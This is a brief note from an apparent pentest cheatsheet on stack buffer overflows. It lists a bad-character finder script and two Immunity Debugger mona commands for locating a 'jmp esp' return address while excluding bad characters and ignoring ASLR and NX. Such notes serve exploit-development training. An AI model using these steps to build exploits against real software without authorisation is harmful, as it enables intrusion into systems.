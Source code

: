 BOF (find bad chars)
===

https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst

        bash find_badchars.sh ./sample1_immunity ./sample1_immunity
        !mona jmp -r esp -cpb "\x00\x51"
        !mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x51"
